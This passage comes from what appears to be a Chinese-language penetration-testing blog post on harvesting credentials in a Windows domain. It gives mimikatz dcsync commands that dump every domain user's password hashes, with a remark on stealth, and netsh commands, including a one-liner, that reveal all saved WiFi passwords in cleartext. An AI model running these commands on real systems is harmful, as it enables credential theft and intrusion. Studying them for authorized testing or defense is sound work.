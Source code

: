 除了拷贝 ntds.dit 到本地外，mimikatz 也可以直接查看本机的域用户所有的账号密码，不过相对于拷贝 ntds.dit 到自己的机器上来说，直接使用 mimikatz 隐蔽性肯定就会差些了。

直接获取 teamssix 域内所有用户 

```
hashlsadump::dcsync /domain:teamssix.com /all /csv
```

获取单个用户的详细信息

```
lsadump::dcsync /domain:teamssix.com /user:administrator
```

## 9、WIFI 密码

使用自带命令可直接查询

获取登录过的 WIFI 名称

```
netsh wlan show profiles
```

获取某个连接过的 WIFI 密码

```
netsh wlan show profile name="teamssix" key=clear
```

获取所有连接过的 WIFI 密码

```
for /f  "skip=9 tokens=1,2 delims=:" %i in ('netsh wlan show profiles')  do  @echo %j | findstr -i -v echo |  netsh wlan show profiles %j key=clear
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210812091842.png)

> 参考文章：
>
> [https://forum.butian.net/share/259](https://forum.butian.net/share/259)
>
> [https://zhuanlan.zhihu.com/p/220277028](https://zhuanlan.zhihu.com/p/220277028)
>
> [https://y4er.com/post/ntlm-hash-and-lm-hash/](https://y4er.com/post/ntlm-hash-and-lm-hash/)
>
> [https://blog.csdn.net/qq_41874930/article/details/108141331](https://blog.csdn.net/qq_41874930/article/details/108141331)
>
> [https://blog.csdn.net/qq_41874930/article/details/108149449](https://blog.csdn.net/qq_41874930/article/details/108149449)
>
> 更多信息欢迎关注我的微信公众号：TeamsSix

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/TeamsSix_Subscription_Logo2.png)

